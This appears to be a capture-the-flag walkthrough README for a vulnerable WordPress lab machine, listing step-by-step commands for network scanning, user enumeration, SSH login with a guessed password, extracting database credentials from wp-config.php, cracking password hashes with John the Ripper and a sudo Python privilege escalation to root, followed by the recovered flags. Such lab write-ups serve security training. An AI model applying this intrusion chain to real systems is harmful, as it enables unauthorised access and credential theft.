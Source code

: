 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Look at Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- nmap

- wpscan

- google developers tool

- Q terminal

- Kali Linux

- ssh

- Bash Commands

- Mysql

- John the Ripper

- Python Script

---

## **Walkthrough**

1.` nmap -sV 192.168.1.110`

![1](/Images/2/1.png)

2. Enumerate: 

    `wpscan --url http://192.168.1.110/wordpress -eu`

    Likewise, the usernames are easy to guess because of the leads on the website.

    ![2](/Images/2/wpscan.png)

3. Search with the google developers tool the flag inside the code

4. Go to Services

5. Search: `flag`

![2](/Images/2/2.png)

6. In the terminal: `'ssh michael@192.168.1.110'`

7. Password: `michael` (Method to obtain the password was guessing. It can also be obtained with Hydra)

8. `pwd`

9. `cd ../../`

10. `find  -iname “*flag*” 2>/dev/null`

![3](/Images/2/3.png)

11. `cat /var/www/flag2.txt`

![4](/Images/2/4.png)

12. `cd /var/www/html/wordpress`

13. `Nano wp-config.php`

![5](/Images/2/5.png)

14. `mysql -u root -p`

15. Password: `R@v3nSecurity`

16. `show databases;`

![6](/Images/2/6.png)

17. `use wordpress;`

![7](/Images/2/7.png)

18. `show tables;`

![8](/Images/2/8.png)

19. `SELECT * FROM wp_users;`

![9](/Images/2/9.png)

20. Right click and copy the part with the hashes

21. In another terminal in the attacker machine create a file and paste the hashes

22. Give the appropriate structure for john the ripper use to crack the hashes

23. nano hashes.txt

![10](/Images/2/10.png)

24. `john hashes.txt –wordlist=’/usr/share/wordlist/rockyou.txt’`

25. `john –show hashes.txt`

![11](/Images/2/11.png)

26. `sudo steven`

27. Password: `pink84`

28. `Sudo -l`

![12](/Images/2/12.png)

29. `sudo python -c 'import pty;pty.spawn("/bin/bash")'`

![13](/Images/2/13.png)

30. `find  -iname “*flag*” 2>/dev/null`

![14](/Images/2/14.png)

31. `cat /root/flag4.txt`

![15](/Images/2/15.png)

32. `grep -r flag3 *`

![16](/Images/2/16.png)

33. `nano /var/lib/mysql/ib_logfile0`

34. `Ctrl w`

35. `flag3`

![17](/Images/2/17.png)

# FLAGS

flag1{b9bbcb33e11b80be759c4e844862482d}

flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

flag3{afc01ab56b50591e7dccf93122770cd2}

flag4{715dea6c055b9fe3337544932f2941ce}
